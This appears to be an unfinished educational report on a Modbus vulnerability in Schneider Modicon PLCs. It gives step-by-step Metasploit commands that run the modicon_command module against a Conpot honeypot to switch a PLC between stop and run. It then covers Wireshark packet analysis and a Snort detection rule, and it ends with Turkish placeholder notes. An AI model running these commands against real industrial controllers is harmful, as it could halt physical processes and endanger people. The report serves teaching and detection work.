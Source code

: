 # Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting working status of PLC.
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack

The module used was written by K. Reid Wightman. Let's start with her saying that  "The exploit is otherwise reliable, but depends on a specific version and can't (or doesn't) reliably autodetect."

***

# Vulnerability Overview

#### Improper Input Validation

This module allows a remote user to change the status of the PLC between stop and run.


For this, this module sends a series of initialization requests.<br>


#### Vulnerability Details
The Schneider Modicon with Unity series of PLCs use Modbus function code 90 (0x5a) to perform administrative commands without authentication.

It communicates using ModBus, or Telnet over Ethernet as well as<br>

Having a web server built in that allows a user to issue commands.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.



## Impact

Successful exploitation of this vulnerability would allow an attacker to end process control by the PLC, allowing the PLC to switch its state between stop and run. Thus, the attacker can create many problems depending on the PLC's function.<br>

Impact to individual organizations depends on many factors that are unique to each organization.

<br>

***

# Exploitation of Vulnerability
As we mentioned before, with this exploit; attacker can cause a denial of service of the system.

In order to exploit the vulnerability we need to download [Metasploit](https://github.com/rapid7/metasploit-framework)<br>

After downloading metasploit we can run it by typing;

```
# msfconsole
```

We can see the ModBus Frameworks' modules by typing;

```
# show all
```

```
# use /auxiliary/admin/scada/modicon_command
```

```
# show options
```

We have checked what parameters our exploit needs to run. This exploit needs;<br>

`RHOST` = remote host ip address,<br>


paramateres.

```
# set RHOSTS <ip>
```

After giving the parameters which are wanted we are ready to run it.

```
# exploit
```

As you can see above, dos attack has started.

***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark1.png">
</p>

Double-clicking on the line will open the package content. 
<br>
If we click Ethernet II line the linked parts will be highlighted. And so we can see the address information and the name of the protocol used.

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshark2.png">
</p>

<br>
IP Header holds network layer information. Of these, it keeps the information of the IPv4 protocol, which is accepted as the backbone of the OSI model, in all its details.


<br>
<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/wireshrak3.png">
</p>

<br>
TCP, UDP, ICMP are important protocols of the transport layer of the OSI model given in the host-to-host connection. They play an important role in the error-free transmission of data. When it examines network layer information in Wireshark, you can see that TCP is used to communicate with the target device.
 
***

# Rules
As a result of using this module, an alarm as below was generated by the snort on the target machine.
<br>

<p align="center">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/alarm_command.png">
</p>

<br>

Accordingly, we can say that there is a rule used for the modicon_command module on snort. The rules used are as follows.
<br>

<p align="center" padding-top="20px">
  <img src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/kural1.png">
</p>

<br>
aşağıdaki kısımda da kuralı görcez ve tanıtacaz.



```
alert (
gid:144; sid:3; rev:2;
msg:"(modbus) reserved Modbus function code in use";
metadata:rule-type preproc;
classtype:protocol-command-decode;
)
```

bu aşağı kısmında da kuralı tanıtıcam ne iş yaptığını nasıl yazıldığını vb.


